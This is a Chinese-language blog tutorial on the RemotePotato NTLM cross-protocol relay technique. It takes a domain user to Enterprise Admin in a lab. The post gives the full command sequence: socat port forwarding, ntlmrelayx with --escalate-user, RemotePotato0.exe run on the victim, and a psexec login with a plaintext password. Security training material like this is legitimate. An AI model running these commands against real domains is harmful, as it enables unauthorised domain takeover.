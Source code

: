 RemotePotato是Antonio Cocomazzi和Andrea Pierini发现的一种域内攻击技术，它允许攻击者将域[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)提升到Enterprise Admin组内，此技术执行跨协议中继以实现NTLM Relay攻击，并将提升的NTLM身份验证流量中继到域控制器以实现权限提升。

利用前提条件：

*   具有域管理员特权的用户已经登录到受害者主机或通过远程桌面登录
*   攻击者已获得对受害者主机的初始访问权限，或者已通过WinRM或SSH访问(拥有本地管理员权限的账号，可以是本地administrator账号或域普通用户) 

*   LDAP和SMB签名未配置

有如下拓扑图，

![](https://img-blog.csdnimg.cn/img_convert/47bc6f18ec90f90d62a13c1585e5f95d.png)

首先，在攻击机上执行如下命令，将本地135端口的流量转发到10.211.55.13的9998端口

```
sudo stty -tostop
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.211.55.13:9998
```


![](https://img-blog.csdnimg.cn/img_convert/2d116ddb4be1b29a0f557e535117cb0c.png)

然后在攻击机上执行如下命令，进行ntlmrelay的监听，将要被提升权限的用户是hack

```
python3 ntlmrelayx.py -t ldap://10.211.55.4 --no-wcf-server --escalate-user hack
```


![](https://img-blog.csdnimg.cn/img_convert/839316bdbec15c3c842e95e4a1927670.png)

然后在攻击机上远程WinRM连接受害者机器。使用域用户hack登录，该用户在10.211.55.13的本地管理员组中。

```
pwsh
Enter-PSSession -ComputerName 10.211.55.13 -Authentication Negotiate -Credential $(get-credential)
```


![](https://img-blog.csdnimg.cn/img_convert/26b861a14c1a153f74383e20e2922618.png)

然后在目标机器上执行RemotePotato0.exe程序

```
.\\RemotePotato0.exe -r 10.211.55.15 -p 9998
```


![](https://img-blog.csdnimg.cn/img_convert/bb462ab19b77945184832fbb1463e7a5.png)

可以看到，我们ntlmrelayx脚本这里已经攻击成功了，hack用户已经成功提权，加进了Enterprise admins管理员组内。

![](https://img-blog.csdnimg.cn/img_convert/a01677b7b2aac5b09bcba5ac29e7b150.png)

![](https://img-blog.csdnimg.cn/img_convert/41bd3891e00d2ede0a8be93c53ce9e0e.png)

没提权权限之前hack用户不能远程连接域控。提升权限后，hack用户可以远程连接域控

```
python3 psexec.py xie/hack:P@ss1234@10.211.55.4
```


![](https://img-blog.csdnimg.cn/img_convert/f9703d557c6d29ed2ce9e88bca1677fb.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[Remote Potato – From Domain User to Enterprise Admin – Penetration Testing Lab](https://pentestlab.blog/2021/05/04/remote-potato-from-domain-user-to-enterprise-admin/ "Remote Potato – From Domain User to Enterprise Admin – Penetration Testing Lab")